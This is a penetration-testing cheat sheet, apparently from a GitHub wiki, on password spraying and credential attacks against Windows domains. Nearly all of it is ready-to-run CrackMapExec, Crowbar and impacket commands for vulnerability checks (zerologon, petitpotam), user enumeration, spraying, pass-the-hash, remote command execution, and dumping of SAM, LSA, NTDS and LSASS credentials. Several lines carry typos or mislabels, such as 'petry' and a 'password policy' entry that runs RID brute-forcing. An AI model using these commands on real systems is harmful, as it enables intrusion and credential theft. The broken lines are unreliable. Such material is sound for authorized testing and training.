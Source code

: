 # Password and Credential Spraying

#### [CrackMapExec](https://wiki.porchetta.industries/) <a href="#crackmapexec" id="crackmapexec"></a>

**Vulnerability scan**

```
#zerologon
crackmapexec smb <ip> -u '' -p '' -M zerologo

#Petitpotam
crackmapexec smb <ip> -u '' -p '' -M petitpotam

#nopac - Credentials required for this test
crackmapexec smb <ip> -u 'user' -p 'pass' -M nopac
```

**SMB**

```bash
# Host enumeration
crackmapexec smb $IP/24
```

```bash
# Checking Null Session
crackmapexec smb $IP -u '' -p ''
crackmapexec smb $IP --pass-pol
crackmapexec smb $IP --users
crackmapexec smb $IP --groups
```

```bash
# Anonymous Logins - random username and blank password
crackmapexec smb $IP -u 'a' -p ''

# Active Sessions on target
poetry run crackmapexec smb 192.168.1.0/24 -u 'username' -p 'password' --sessions

# LoggedOn Users
crackmapexec smb 192.168.1.0/24 -u 'username' -p 'password' --loggedon-users

# List shares and permissions
crackmapexec smb $IP -u 'username' -p 'password' --shares

# List Domain Users
crackmapexec smb $IP -u 'username' -p 'password' --users

# Enumerate Users with RID brute
crackmapexec smb $IP -u 'username' -p 'password' --rid-brute

# Enumerate Domain groups and localgroups
crackmapexec smb $IP -u 'username' -p 'password' --groups
crackmapexec smb $IP -u 'username' -p 'password' --local-group

# Passsword Policy
crackmapexec smb $IP -u 'username' -p 'password' --rid-brute

# SMB signing not required
crackmapexec smb $IP -u 'username' -p 'password' --gen-relay-list relaylistOutputFilename.txt

# AV Software installed
crackmapexec smb $IP -u 'username' -p 'password' -M enum_av-M enum_av
```

```
# Spraying
poetry run crackmapexec smb $IP -u user.txt -p password.txt --continue-on-success
poetry run crackmapexec smb $IP -u user.txt -p password.txt --no-bruteforce

# Default authentication is domain auth where green indicates successful login and pwn3d! marks local admin
petry run crackmapexec winrm $IP/24 -u <username>  -p '<password>' --local-auth
poetry run crackmapexec smb $IP -u Administrator -H '<hash>' --continue-on-success
```

```
# command execution cmd
poetry run crackmapexec $IP -u Administrator -p 'P@ssw0rd' -x whoami
# command execution powershell
poetry run crackmapexec $IP -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
```

> Getting Shell in Empire using CME: https://wiki.porchetta.industries/smb-protocol/command-execution/getting-shells-101

```
# Dumping Credentials
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --local-auth --lsa
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --local-auth --sam
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --local-auth --lsa
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --ntds
poetry run crackmapexec smb $IP -u administrator -p pass -M lsassy    #remotely dump creds
poetry run crackmapexec smb $IP -u administrator -p pass -M nanodump  #remotely dump creds
poetry run crackmapexec smb $IP -u administrator -p pass -M wireless  #wifipassword
```

**WinRM**

```
# smb
petry run crackmapexec winrm $IP/24 -u <username>  -p '<password>'          
petry run crackmapexec winrm $IP/24 -u users.txt  -p password.txt' --no-bruteforce
```

**MSSQL**

> Reference: https://wiki.porchetta.industries/mssql-protocol/mssql-privesc

#### Crowbar <a href="#crowbar" id="crowbar"></a>

```
crowbar -b rdp -s $IP/32 -u <username> -c '<password>' -n1 -v 
```

#### impacket-rdp\_check <a href="#impacket-rdp_check" id="impacket-rdp_check"></a>

```
impacket-rdp_check <domain/user>:<password>@$IP
impacket-rdp_check <domain/user>@$IP -hashes LMHASH:NTHASH
```

